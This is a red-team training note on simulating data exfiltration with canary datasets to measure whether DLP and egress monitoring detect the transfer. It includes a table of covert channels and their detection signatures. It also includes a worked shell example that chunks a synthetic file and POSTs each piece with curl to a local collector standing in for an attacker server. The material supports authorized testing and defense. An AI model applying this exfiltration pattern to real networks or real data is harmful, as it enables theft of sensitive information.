

# 📤 Data Collection & Exfiltration Simulation

> [!warning] Authorized adversary emulation only
> Simulate collection and exfiltration with **canary data only** — never real client data. The objective is to measure whether DLP, egress control, and monitoring detect the transfer, then hand the blue team the gap. Real exfiltration is a breach you would be causing.

## Parent Learning Order
Red Team Credential Access & Lateral Movement -> Data Collection & Exfiltration Simulation

## Proving the Crown Jewels Can Leave — Safely

> *You must prove the crown jewels could leave the network. What do you actually send out?*
>
> Hold your answer — the section below is the response.

The final objective of many operations is to show that an attacker could **exfiltrate sensitive data**. This note covers the two closing steps: **collection** (finding and staging the target data) and **exfiltration** (moving it out over a channel) — done as a *simulation* with canary data, to measure whether the client's **DLP and egress controls** catch it. It complements the pentest **Data Collection & Post-Exploitation Cleanup** leaf (which proved access *without* exfiltration); here the red-team focus is the **channel and its detectability** — does staged data leaving over DNS, HTTPS, or a cloud service trip the defenses?

The defining discipline: **you exfiltrate a canary dataset, never real data**, and you *measure the channel* — volume, protocol, destination reputation, timing — because that is exactly what DLP and egress monitoring key on.

> [!tip] The analogy, and where it breaks
> Exfil simulation is like a security consultant testing whether they can carry a *marked decoy document* out of the building past the guards and scanners — the decoy proves the exit works without leaking anything real. The analogy breaks on channels: a physical document goes out one door, whereas data can dribble out disguised as DNS lookups, blend into HTTPS, or ride a legitimate cloud upload — so the test isn't one exit, it's *many covert channels*, each with a different detection signature.

**Prerequisites:** the Post-Ex **Data Collection & Post-Exploitation Cleanup** leaf, the Networking **Egress Control** and **DNS Security** leaves (the channels/defenses), and **C2 Infrastructure & Redirectors**.

## Collection: Staging the Target

Collection finds and prepares the objective data: locating it, optionally compressing/encrypting it, and **staging** it for transfer. Red-team collection is *targeted* (the specific canary "crown jewels" in scope) and quiet — a mass sweep is loud (see the credential-access leaf). The staged bundle is the decoy dataset the exfil step will move.

## Exfiltration Channels and Their Signatures

| Channel | Blends into | Detection signature |
|---|---|---|
| **HTTPS to attacker infra** | Web traffic | Destination reputation, volume, JA3/TLS |
| **DNS tunneling** | DNS lookups | Long/high-entropy labels, query volume |
| **Cloud storage / SaaS** | Legit uploads | Upload to unusual tenant, volume |
| **Email / messaging** | Comms | Attachment size, external recipient |
| **Physical / removable** | — | USB events, endpoint DLP |

Each trades **bandwidth vs stealth**: HTTPS is fast but destination-visible; DNS is slow but traverses restrictive egress. The unifying detection theme is **anomalous outbound volume/pattern to an unusual destination** — which is precisely what DLP and egress monitoring exist to catch, and what the simulation measures.



## Worked Example: Measuring an Exfil Channel by Its Detection Signature

Exfiltration simulation is not about moving data — it is about characterising how
*detectable* a given channel is, so the defender learns which ones they can see.
A synthetic crown-jewel dataset, tagged with honeytokens and sent to a local
collector, lets the whole transfer be measured without a byte of real data leaving
anywhere.

**The dataset is entirely synthetic**, and tagged so any copy is recognisable:

```shell-session
operator@lab:/tmp/exfil-lab$ head -1 crown.csv; wc -l < crown.csv
CANARY-RECORD-0000
200
```

Every record carries the `CANARY` marker — a honeytoken. Nothing here is real
customer data, which is the non-negotiable rule of exfil testing: you simulate the
movement of crown jewels, you never move actual crown jewels.

**The transfer** chunks the file and posts each piece to a collector standing in
for the attacker's server:

```shell-session
operator@lab:/tmp/exfil-lab$ split -l 40 crown.csv chunk_
operator@lab:/tmp/exfil-lab$ for c in chunk_*; do curl -s -X POST --data-binary @"$c" http://127.0.0.1:9200/ >/dev/null; done
operator@lab:/tmp/exfil-lab$ grep -c chunk ingress.log
5
```

Five chunks sent and five received — a working bulk channel over HTTP. This is the
baseline: high bandwidth, simple to build, and the most visible option available.

**The measurement** is the deliverable, not the transfer:

```shell-session
operator@lab:/tmp/exfil-lab$ awk '{s+=$2} END{print s" bytes across "NR" POSTs to one host"}' ingress.log
4180 bytes across 5 POSTs to one host
operator@lab:/tmp/exfil-lab$ grep -q CANARY crown.csv && echo "honeytoken present -> content detection would fire"
honeytoken present -> content detection would fire
```

Two independent signals make this channel detectable, and naming both is the
point. Volume: several kilobytes to a single destination in a tight window is what
an egress or DLP rule watches for. Content: the honeytoken means that even
encrypted, a decrypting proxy or an endpoint agent that sees the plaintext can
match the marker. A defender who catches this transfer caught it in two ways.

Which frames the real finding — the *gap*. This channel is loud and catchable, so
the interesting question for the next test is the quiet one: does the same data
leave undetected over DNS, in small pieces spread across hours, or blended into
normal HTTPS to an allowed domain? An exfil simulation earns its keep by ranking
the organisation's channels from most to least detectable, so remediation starts
with the blind spot rather than the one already covered.

## Canary datasets and channel signatures

- **Using real data.** The cardinal violation — a simulation that moves real client data *is* a breach you caused. Canary datasets only.
- **Ignoring the channel's signature.** "It got out" is incomplete; capture whether DLP/egress flagged the volume/destination/pattern — that's the deliverable.
- **Loud collection.** A mass sweep to stage data is noisy (credential-access leaf lesson); target the canary crown jewels.
- **One channel tested.** Different channels have different detection profiles; testing only HTTPS misses DNS/cloud gaps.
- **No teardown of exfil infra.** The collector/redirector must be torn down (OpSec & Teardown leaf) — a live exfil endpoint is residual exposure.

**The deliberate break:** an exfiltration simulation reads as needing to move the real data — anything else feels like a demonstration rather than a proof.

The control under test is whether **DLP and egress monitoring notice**, and a canary with the right characteristics tests that precisely as well as genuine data while creating no breach at all. Moving real client data out of the client's network is the event the engagement exists to prevent, performed by the people hired to prevent it, and it converts a controlled exercise into a reportable incident with the tester holding the data.

**How you'd spot it:** build the canary to match what the control keys on — the same file type, the same size band, the same destination class as the real thing — because a control tuned for spreadsheets will not react to a text file however large. Then measure both directions: what actually left, and what the client saw. An exercise that proves data can leave but cannot say whether anything alerted has answered only half of the question it was commissioned for.

## Security Implications — the Defender's View

- **DLP + egress control are the direct defenses:** classify and watch crown-jewel data, allow-list egress destinations, and inspect DNS/HTTPS — the Networking egress-control and DNS-security leaves are the how.
- **Data-centric protection blunts impact:** encryption at rest, tokenization, and rights management mean exfiltrated bytes are ciphertext/tokens, not usable records — even a successful channel yields little.
- **Anomaly detection:** unusual outbound *volume*, connections to young/low-reputation destinations, and high-entropy/long DNS queries are the signals; baselining normal egress makes anomalies visible.
- **Honeytoken datasets:** a canary "crown-jewel" file that alerts when read or when it leaves the network turns exfil into a high-fidelity detection.
- **The exercise's value:** a per-channel detection outcome ("HTTPS bulk upload caught; slow DNS exfil missed") tells the blue team exactly which egress gap to close.

## Summary

You should now be able to:

- Explain why exfil simulation uses canary data and measures the channel, and what collection/staging are.
- Stage and exfiltrate a canary dataset over a channel, and measure the volume/destination/pattern a DLP would detect.
- Compare exfil channels by bandwidth vs stealth and detection signature, explain why data-centric protection + egress control + honeytokens are the defenses, and why the deliverable is a per-channel detection outcome.

---
> 🔼 Up: [[Lateral Operations & Objectives]]
